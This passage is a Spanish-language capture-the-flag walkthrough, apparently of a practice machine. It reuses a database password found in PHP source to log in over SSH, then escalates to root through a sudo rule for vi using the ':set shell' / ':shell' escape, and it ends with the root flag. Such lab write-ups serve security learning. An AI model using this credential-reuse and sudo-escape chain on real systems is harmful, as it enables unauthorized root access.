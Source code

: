 ```php
[...]
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
[...]
```

Ya tendríamos una probable contraseña para el usuario *postgres* (`P@s5w0rd!`). Como antes vimos, tenemos abierto el puerto 22 (*ssh*), así que podríamos tratar de conectarnos por ssh:

```shell
ssh postgres@<ip>
```

Y volvemos a ejecutar `sudo -l` para comprobar nuestros privilegios:

```shell
sudo -l

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Lo que nos dice que podemos ejecutar con privilegios de superusuario `/bin/vi /etc/postgresql/11/main/pg_hba.conf`. Con una búsqueda rápida en https://gtfobins.github.io/gtfobins/vi/#sudo, (*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access*), por lo que probamos:

```shell
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' /dev/null
```

Sin embargo, no nos deja. Por suerte hay más opciones, primero abriremos el archivo:

```shell
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Y una vez dentro pulsamos *:* para introducir instrucciones en vi e introducimos la siguiente línea:

```shell
:set shell=/bin/sh
```

Y después ponemos:

```shell
:shell
```

Y conseguimos una shell, si ejecutamos `whoami`, obtenemos:

```shell
whoami
root
```

Introducimos `bash` para tener una shell en bash y buscamos la flag de root, que estará en `/root/root.txt` (`dd6e058e814260bc70e9bbdef2715849`).